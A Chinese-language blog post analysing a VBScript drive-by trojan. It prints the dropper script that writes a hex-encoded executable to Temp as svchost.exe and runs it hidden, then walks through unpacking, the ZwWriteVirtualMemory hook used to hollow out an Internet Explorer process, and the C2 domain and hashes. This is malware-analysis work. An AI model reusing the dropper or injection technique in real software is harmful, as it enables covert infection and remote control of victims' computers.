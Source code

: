 ```yaml
---
published: true
title: VBS页面木马简单分析
layout: post
tags: [安全, 逆向]
categories: [安全]
---
```


### 简述

最近监控到一种VBS网页挂马数量大规模爆发，初步怀疑数量的井喷与最近连续爆出的高危漏洞有关，这里对其中使用到的加密注入技术进行简单分析。

像骗子一般会用比较低级的骗术过滤掉聪明的人来降低行骗成本，这个木马也同样是这样，直接在页面中用VBS写编码后的PE文件，简单粗暴，只有IE的安全级别为低且允许运行VBS的情况下才会中招。一般这样的用户没有什么安全意识，电脑也基本没有防护，控制者几乎可以为所欲为。

简单粗暴的挂马代码如下

```vbscript
DropFileName = "svchost.exe"
// 编码后的PE文件
WriteData = "4D5A90000300000..."
Set FSO = CreateObject("Scripting.FileSystemObject")
// 保存文件为Temp文件夹下的svchost.exe
DropPath = FSO.GetSpecialFolder(2) & "\" & DropFileName
If FSO.FileExists(DropPath) = False Then
    Set FileObj = FSO.CreateTextFile(DropPath, True)
    For i = 1 To Len(WriteData) Step 2
        FileObj.Write Chr(CLng("&H" & Mid(WriteData,i,2)))
    Next
    FileObj.Close
End If
// 运行该程序
Set WSHshell = CreateObject("WScript.Shell")
WSHshell.Run DropPath, 0
```

把挂马的PE文件内容保存下来，通过下面的代码还原成二进制文件。

```python
import re
arr = re.compile('.{2}').findall(open('virus').read())
open('virus.pe', 'w').write(''.join([chr(int(i, 16)) for i in arr]))
```

### 脱壳解密

PEID查壳，显示为```UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo```，直接ESP下断脱掉后放入IDA中分析，查看字符串，发现并没有什么特别的东西，有很多API字符串，判断代码还是被加密，分析找到解密代码如下，算法比较简单。

```
UPX0:004084AA 8D 7F 01                  lea     edi, [edi+1]
UPX0:004084AD FF 77 01                  push    dword ptr [edi+1]
UPX0:004084B0 8A 24 24                  mov     ah, byte ptr [esp+8+var_8]
UPX0:004084B3 E9 81 EF FF FF            jmp     loc_407439

loc_407439: 
UPX0:00407439 83 C4 04                  add     esp, 4
UPX0:0040743C 80 F4 A2                  xor     ah, 0A2h
UPX0:0040743F C0 C4 16                  rol     ah, 16h
UPX0:00407442 C0 CC 08                  ror     ah, 8
UPX0:00407445 80 EC 6C                  sub     ah, 6Ch
UPX0:00407448 30 61 00                  xor     [ecx+0], ah
UPX0:0040744B 41                        inc     ecx
UPX0:0040744C 4A                        dec     edx
UPX0:0040744D 8B DA                     mov     ebx, edx
UPX0:0040744F 81 EB 09 58 CD 2F         sub     ebx, 2FCD5809h
UPX0:00407455 52                        push    edx
UPX0:00407456 53                        push    ebx
UPX0:00407457 8B D4                     mov     edx, esp
UPX0:00407459 81 42 00 09 58 CD 2F      add     dword ptr [edx+0], 2FCD5809h
UPX0:00407460 5B                        pop     ebx
UPX0:00407461 5A                        pop     edx
UPX0:00407462 0F 85 42 10 00 00         jnz     loc_4084AA
UPX0:00407468 E8 75 0F 00 00            call    sub_4083E2    ;跳转到解密后代码
UPX0:0040746D C3                        retn
```

这里代码跳转后，依旧还是一段用来解密的shell，OD中跟几步，发现它在读写0x400000的PE头，判断它会把解密后的代码写回.text段，直接在0x401000处下硬件写入断点，几次F9后到解密代码，继续往下跟，在调用LoadLibrary和GetProcessAddress重建导入表后跳转到真正的EP，在这里dump后用ImportREC重建输入表拖入IDA中分析。

### 母体分析

这是一个典型的恶意程序母体，它只做下面三步：

1. 创建"KyUffThOkYwRRtgPP"互斥体，保证只有一个实例在运行;

2. 从注册表中读取IE的文件目录，将自身写入IE文件夹中，命名为DesktopLayer.exe并执行，原始进程退出。

3. 若自身的进程名为DesktopLayer.exe，进入正常流程。正常流程调用CreateProcess启动一个IE进程，并将子体注入IE中运行。注入过程比较有意思，详细分析一下：

* 第一步：挂起自身所有线程，用inline hook方法hook ZwWriteVirtualMemory函数，再恢复线程执行，实际上这里并没有多线程环境，病毒作者应该是使用了通用hook库。可以看下面ZwWriteVirtualMemory函数hook前后的对比。

```
ntdll.ZwWriteVirtualMemory 
7C92DFAE       B8 15010000         mov eax,115
7C92DFB3       BA 0003FE7F         mov edx,7FFE0300
7C92DFB8       FF12                call dword ptr ds:[edx]
7C92DFBA       C2 1400             retn 14

ntdll.ZwWriteVirtualMemory
7C92DFAE       E9 A64AAD83         jmp DesktopL.00402A59
7C92DFB3       BA 0003FE7F         mov edx,7FFE0300
7C92DFB8       FF12                call dword ptr ds:[edx]
7C92DFBA       C2 1400             retn 14
```

* 第二步：调用CreateProcess来创建IE进程，CreateProcess会调用CreateProcessInternalW函数来处理真正的创建进程流程，这个函数中最终会调用ZwWriteVirtualMemory函数来将程序文件和DLL库写到新进程的地址空间中，这个过程自然就触发了hook函数的执行。

* 第三步: 通过hook函数向子进程的0x20010000处注入长度为0x9800的子体，并且继续注入几段代码和数据，然后调用ZwQueryInformationProcess获得子进程加载基址，在其EP处写入12个字节。这12个字节是三条汇编指令，作用是跳转执行恶意代码。12字节指令如下：

```
0040DFA7  BF 00000400         mov edi,40000   // 0x40000和0x50000是调用VirtualAlloc申请内存时
0040DFAC  68 00000500         push 50000      // 返回，不同机器和环境返回值不一样
0040DFB1  FFD7                call edi
```

到此IE进程已经被掏空并塞满了恶意代码，进程创建完毕后，主线程一旦开始执行，便会跳转到恶意代码处，此时IE进程已经成了披着羊皮的狼。总结其母体代码流程如下:

```c++
void __usercall start(unsigned __int8 *a1<edi>)
{
  int mutex_handler; // eax@2
  DWORD len; // eax@5

  if ( get_ie_exe_path(&ie_exe_path, 0x400u) == 1 )
  {
    mutex_handler = create_mutex("KyUffThOkYwRRtgPP");
    if ( mutex_handler )
    {
      close_mutex((HANDLE)mutex_handler);
      mutex_handler = 1;
    }
    if ( mutex_handler == 1 )
    {
      len = GetModuleFileNameA(NULL, module_file_name, 0x104u);
      set_end_of_str(module_file_name, len);
      if ( copy_self_to_ie_path(module_file_name) == 1 )
        ExitProcess(0);
      if ( get_APIs_address() == 1 )
      {
        inline_hook_function(a1);
        create_process((LPSTR)&ie_exe_path, 1u);
        unhook_function();
      }
    }
  }
  ExitProcess(0);
}
```

### 子体分析

在母体进行代码注入时，总共会调用VirtualAllocEx和WriteProcessMemory注入下面列出的六次代码：

```
LoaclAddress   RemoteAddress   Size
0x20010000     0x20010000      0xD0000
0x004022F0     0x00020000(*)   0x233
0x00402523     0x00030000(*)   0xDF
0x00401F5D     0x00040000(*)   0xAF
0x00121FEC     0x00050000(*)   0x138
0x0040DFA7     0x00402451      0xC
```

写到0x20010000处的代码是病毒子体，直接从母体中把子体抓出是无法分析的，其代码做了加密，并且缺少几段一同注入的解密代码。

这里有两个思路，一种是在VirtualAllocEx和WriteProcessMemory下断，把第一个参数hProcess换成-1，让它把代码写入自己的内存，在拷贝最后12个字节时将EIP跳过去开始执行；另一种是把最后拷贝到子进程的12个字节中第一个字节换成CC，并且把OD设置为默认调试器，子进程开始运行会自动触发int 3断点被OD attach上，恢复第一个字节，继续跟踪即可。

我这里选择了第一种方式，用这种方法跳转后的代码依旧是shell，完成对子体代码的导入表修复和重定向，最终才会跳转到0x20017c79处真正的子体代码开始执行。

到此，木马子体已经完全释放完毕，在其每个线程的入口处添加断点，跟踪几步便可看到上线域名fget-career.com。

从OD对0x20010000内存段的反汇编可以大致看出其功能，一个很典型的远控木马，这里不再详细分析。在线行为分析报告参考这里。[行为分析报告](http://a.virscan.org/ff5e1f27193ce51eec318714ef038bef)

病毒文件MD5: ff5e1f27193ce51eec318714ef038bef

脱壳后文件MD5: 7bb9db2b8b37a918ab101d0687a9866b
